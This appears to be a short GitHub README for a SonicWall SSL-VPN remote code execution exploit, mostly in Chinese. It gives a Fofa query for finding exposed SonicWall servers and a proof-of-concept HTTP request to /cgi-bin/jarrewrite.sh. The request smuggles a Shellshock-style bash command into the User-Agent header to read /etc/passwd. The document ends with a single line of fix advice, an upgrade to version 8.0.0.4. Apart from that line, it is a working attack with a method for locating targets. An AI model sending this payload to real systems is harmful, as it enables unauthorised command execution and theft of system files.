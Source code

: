 # SonicWall-SSL-VPN-RCE
SonicWall-SSL-VPN-RCE


## Fofa
``` bash
server=="SonicWALL SSL-VPN Web Server"
```

## POC
``` javascript
GET /cgi-bin/jarrewrite.sh HTTP/1.1
Host: 103.x.x.x:4433
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://103.x.x.x.x:4433/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: AOPortal_103.x.x.x=false; SessURL=https%3A%2F%2F103.x.x.x%3A4433%2Fcgi-bin%2Fwelcome
```
![](https://blog-1259438478.cos.ap-nanjing.myqcloud.com/post-picture1/post-m-1.png)

java的gui版：

![](https://blog-1259438478.cos.ap-nanjing.myqcloud.com/post-picture1/post-m-2.png)
## 修复建议

升级到Sonic SMA 8.0.0.4
